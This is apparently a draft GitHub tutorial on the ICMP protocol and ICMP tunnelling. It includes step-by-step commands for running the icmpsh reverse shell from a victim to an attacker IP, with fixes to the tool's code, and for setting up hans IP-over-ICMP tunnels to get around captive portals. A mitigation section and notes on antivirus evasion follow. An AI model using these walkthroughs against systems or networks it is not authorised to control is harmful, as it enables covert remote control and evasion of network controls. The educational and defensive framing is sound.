


```
document under construction
```
# Basics

ICMP (or the Internet Control Message Protocol) is an upper layer 3 protocol.


It is commonly used for diagnostic purposes (ping and traceroute).


ICMP for IPv4 is specified in [rfc792](https://www.rfc-editor.org/rfc/rfc792) and ICMP for IPv6 (ICMPv6) is specified in [rfc4443](https://www.rfc-editor.org/rfc/rfc4443).



20 Byte IPv4 Header + 8 Byte ICMP fields + data (optional depending on the ICMP type)

IPv4 type of service (TOS): 0

IPv4 protocol: 1


ICMP Types:
- 0 Echo Reply
- 3 Destination Unreachable
- 4 Source Quench
- 5 Redirect
- 8 Echo
- 11 Time Exceeded
- 12 Parameter Problem
- 13 Timestamp
- 14 Timestamp Reply
- 15 Information Request
- 16 Information Reply

ICMP Codes depend on the ICMP Type.

The checksum is bein calculated over the entire ICMP message and inserted afterwards.

# Examples for ICMP echo request and ICMP echo reply
Windows 10 on a LAN pinging Cloudflare DNS server on the public internet (echo request | type 8).


Cloudflare DNS server responding to the request (echo reply | type 0).


Ubuntu on a LAN pinging Google DNS server on the public internet (echo request | type 8).


Google DNS server responding to the request (echo reply | type 0).


# ICMP data
Windows sends the alphabet (small letters) ~1,27 times (32 bytes).

Ubuntu sends a total of 48 bytes from which only the last 24 bytes have a graphical representation.

## Could something else be send as ICMP request/reply data?
Yes!

For starters with some ping utilities, you can adjust the length of the ICMP data.

Other programs let you send a custom text as ICMP data.

### Demo for custom icmp data with nping

nping which is part of the nmap utility.

nmap binaries are available for Windows, macOS and Linux.

nping demo command on Windows which needs to be executed from the `C:\Program Files (x86)\Nmap` folder:
```
nping --icmp -c 1 1.1.1.1 --data-string "qwertz 12345 abcdefg"
```
This command sends one icmp ping to the Cloudflare DNS with the content "qwertz 12345 abcdefg"


### What could this be used for?
Some early research on what can be done with the data transmitted in ICMP requests and replies includes [project Loki](https://web.archive.org/web/20030316090229/http://www.phrack.com/show.php?p=49&a=6). In this project from 1996 the possibility of a covert channel via the ICMP protocol was discussed. Covert channels can be grouped into two categories:

- timing channel (sub-categories: interval based, time-replay, model-based, JitterBug, ...)
- storage channel (in networking use of optional or unused protocol fields)

# ICMP Tunnel
An ICMP Tunnel uses a covert storage channel with the data field in the ICMP requests and replies. 

ICMP tunnels have two general use cases:
- reverse-shell
- ip over icmp

## Reverse-shell
In a typical remote shell scenario, a user would establish a connection with a client to a server. The server is listening for connection-requests. When the client is connected to the server the user can access the resources of the server.

A reverse-shell is the opposite of a remote shell. Instead of the server being the source of the shell the client gets to be the source of the shell. And the server is the one with which the user can control the client. This is also called a command and conquer (c&c) attack.

### icmpsh

[icmpsh](https://github.com/bdamele/icmpsh) is available on GitHub under the GNU Lesser General Public License.

The demonstration involves an Ubuntu GNU/Linux computer as the attacker and a Windows computer as the victim.

#### ***requirements***
- Windows computer as the victim (client)
- POSIX compatible computer (like a GNU/Linux distribution) as the attacker (server)

#### ***install (attacker only)***
prerequisites: 
- python is python 3
- python3 impacket
```
sudo apt install python-is-python3
sudo apt install python3-impacket
```
#### ***configuration (attacker only)***
It is necessary to either put the following command at the end of the `/etc/sysctl.conf` file or execute it before executing the actual program:
```
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

The following changes were done to the `icmpsh_m.py` file to be able to execute it with python 3:
- line 40 was changed from 
  > if subprocess.mswindows:
  
  to
  > if subprocess._mswindows:
  
- line 60 was changed from 
  > except socket.error, e:
  
  to
  > except socket.error(e):
  
- line 103 was changed from
  > sys.stdout.write(data)
  
  to
  > sys.stdout.write(data.decode("iso8859-1"))
  
- line 119 was chaged from
  > icmp.contains(ImpactPacket.Data(cmd))
  
  to
  > icmp.contains(ImpactPacket.Data(bytes(cmd, 'iso8859-1')))
  
#### ***execution (attacker and victim)***
For the icmpsh server (the attacker) use the following command from the icmpsh master folder:
```
sudo ./icmpsh_m.py <attacker_ip> <victim_ip>
```
For the icmpsh client (victim) use the following command from the icmpsh master folder:
```
icmpsh.exe -t <attacker_ip>
```

#### ***downsites of icmpsh***
- icmpsh traffic is unencrypted in the data field of the icmp requests and replies
- only targets windows computers

### icmpdoor
icmpdoor is another more modern icmp based reverse-shell program.

[icmpdoor](https://github.com/krabelize/icmpdoor) is available on GitHub under the BSD 3-Clause License.

improvements over icmpsh:
- the attacker can use Windows or GNU/Linux
- the victim can be a Windows or a GNU/Linux machine

## ip over icmp
With ip over icmp ipv4 data traffic can be hidden in icmp packets.
This can for example be used to circumvent captive portals.

### hans

[hans](https://github.com/friedrich/hans) is available on GitHub under the GNU General Public License v3.0.

The demonstration involves an Ubuntu GNU/Linux machine as the IP over ICMP client and a Raspberry Pi with Raspberry Pi OS as a remote IP over ICMP server.


#### ***requirements***
- Linux or GNU/Linux machine with full internet access as an IP over ICMP server
- Linux, GNU/Linux, Windows or macOS machine with either full internet access or limited internet access with no restrictions on icmp traffic as the IP over ICMP client

Support for tunnel devices (tun devices) is required. On Windows and macOS this functionality can be added with third party drivers.

#### ***install (GNU/Linux only)***
prerequisites: 
- make
- build-essential
- net-tools
- git
```
sudo apt install make
sudo apt install build-essential
sudo apt install net-tools
sudo apt install git
```

For the installation of hans switch to the directory from GitHub.

Then execute the `make` command.

Lastly reboot the device.

#### ***configuration and execution (GNU/Linux only)***
Several settings need to be adjusted so that the client and the server to be able to communicate and to use the internet over the ICMP tunnel.

On the server-side routing needs to be enabled with the following command.
```
sudo sysctl net.ipv4.ip_forward net.ipv4.ip_forward=1
```
Also, for the server icmp requests need to be ignored by the router and/or CPE (customer premises equipment).

On Asus routers this is achieved by setting `Respond ICMP Echo (ping) Request from WAN` (under Firewall -> General) to `No` and by forwarding `port 1` with the `protocol` set to `other` to the ip over icmp server (under WAN -> Virtual Server/Port Forwarding).


On the client side the route configuration needs to be changed with the following commands.
```
sudo route add -host <ip_over_icmp_server_ip> gw <gateway_ip_for_internet_connection>
sudo route add default gw <ip_of_server_tun_interface>
sudo route del default gw <gateway_ip_for_internet_connection>
```
Furthermore, the DNS server configuration of the client needs to be changed because the DNS Server on the network of the client will no longer be reachable. This can be done by changing `/etc/resolv.conf` file or under Ubuntu GNU/Linux go to Settings -> Network -> Settings for the relevant network interface -> IPv4, turn of Automatic for the DNS configuration and enter a publicly accessible DNS server (like Cloudflare, Google or Quad9).

For the execution of hans on the server side use the following command from the hans folder:
```
sudo ./hans -s <network_ip> -p <password>
```

For the execution of hans on the client side use the following command from the hans folder:
```
sudo ./hans -c <ip_over_icmp_server_ip> -p <password>
```

For both the client and the server you can add the `-fv` option to the server or the client command so that hans runs in the foreground and prints debug information. This is can also be used to quit hans very easily (on desktop operating systems with a graphical shell). 

## Mitigation
- up to date anti-virus
  - this can help against malicious client software for c&c attacks
  - icmpsh gets detected by several ani-virus software’s (checked with virustotal.com) and even by Windows Defender
  - but icmpdoor doesn't get detected by practically any anti-virus software (checked with virustotal.com)
- configure access control lists
  - deny all icmp traffic
  - only allow icmp traffic from certain sources or to certain destinations
  - this might come at the cost of functionallity taken for granted
- traffic analysis
  - high amount of icmp traffic
  - detect malicious external endpoints
- ICMP data analysis
  - ICMP data length limit
  - deep packet inspection
  
```
add more mitigation techniques 
```

# Further ICMP based attacks worth mentioning
- Ping of death
- Smurf attack
- ICMPv6 Router Discovery

# Sources

https://en.wikipedia.org/wiki/IPv4

https://www.elektronik-kompendium.de/sites/net/2011241.htm

https://homepages.uc.edu/~thomam/Net1/Packet_Formats/icmp.html

https://www.ionos.at/digitalguide/server/knowhow/was-ist-das-icmp-protokoll-und-wie-funktioniert-es/

https://www.elektronik-kompendium.de/sites/net/0901011.htm

https://www.javatpoint.com/computer-network-tcp-ip-model

https://www.rfc-editor.org/rfc/rfc792

https://link.springer.com/chapter/10.1007/3-540-45067-X_20

https://web.archive.org/web/20030316090229/http://www.phrack.com/show.php?p=49&a=6

https://ieeexplore.ieee.org/document/8308433

https://ieeexplore.ieee.org/document/5590253

https://stackoverflow.com/questions/3655306/ubuntu-usr-bin-env-python-no-such-file-or-directory

https://www.cynet.com/attack-techniques-hands-on/how-hackers-use-icmp-tunneling-to-own-your-network/

https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/

https://cryptsus.com/blog/icmp-reverse-shell.html

https://code.gerade.org/hans/

https://kenelm1985.wordpress.com/2016/08/11/ip-over-icmp-with-hans/

https://en.wikipedia.org/wiki/ICMP_tunnel

https://logrhythm.com/blog/identifying-powershell-tunneling-through-icmp/

https://www.socinvestigation.com/icmp-attacks-types-codes-for-log-analysis-detection-defense/

https://gursimarsm.medium.com/customizing-icmp-payload-in-ping-command-7c4486f4a1be

https://nmap.org/
